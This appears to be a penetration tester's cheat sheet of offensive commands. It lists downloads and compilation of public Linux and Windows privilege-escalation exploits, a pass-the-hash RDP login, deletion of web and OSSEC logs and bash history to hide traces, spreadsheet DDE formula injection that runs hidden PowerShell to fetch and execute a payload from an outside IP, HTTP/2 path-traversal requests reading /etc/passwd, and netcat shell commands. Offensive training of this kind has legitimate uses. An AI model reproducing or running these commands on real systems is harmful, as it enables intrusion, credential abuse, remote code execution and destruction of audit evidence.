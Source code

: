 	

## Public exploits
	Linux:
		wget -O exploit.c https://www.exploit-db.com/exploits/18411	-CVE 2012-0056 root for >=2.6.39 (Ubuntu 11.10, kernel 3.0.0-12)
		gcc exploit.c -o exploit	-Compile to binary
	Get Win compiler:
		sudo apt-get install mingw-w64
		i686-w64-mingw32-gcc slmail-win-fixed.c -lws2_32 -o s.exe	-For x86
		x86_64-w64-mingw32-gcc -o main64.exe main.c	-For x64

		i585-mingw32msvc-gcc file_name.c -lws2_32 -o exploit.exe
		wine exploit.exe	-To run Windows file in Linux
	Windows:
		wget -O ms11-080.py https://www.exploit-db.com/exploits/18176	-MS11-080 (WinXP and 2003)
		python pyinstaller.py --onefile ms11-080.py			-Create an exe out of python

    xfreerdp /u:administrator /d:thinc /pth:aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e /v:10.11.1.221

## History Removal
	Find and remove ossec-alerts.log, access.log, httpd-access.log
	echo > .bash_history

## AV bypass

	DDE inj in xlsx
    =cmd|'/c powershell.exe -w hidden $e=(Copy-Item -Path c:\Te\12345.txt -Destination C:\Users\test\12345); powershell -e $e'!A1
	=cmd|'/c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"http://1.2.3.4/test.exe\"); powershell -e $e'!A1

	HTTP2 https://www.youtube.com/watch?v=YHOnxlQ6zec

	In wireshark: http2.data.data && http2 contains username
	nghttp -v -u http://http2.sec642.org/../../../../etc/passwd doesn't work, need to be encoded
	curl2 --http2 http://http2.sec642.org/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
	curl --http2-prior-knowledge --data "status=on" http://localhost:8080/index.ph

## ADFS:

```$msolcred = get-credential
connect-msolservice -credential $msolcred
Get-MsolUser -All | ft -AutoSize
```

## Netcat Shells

### Interact with a service

#### Pop Mail
```
Kali                    nc -nv 192.168.152.10 110
```
#### Chat
```
Kali                    nc -nv 192.168.152.10 4444
Windows                 nc.exe -nlvp 4444
```
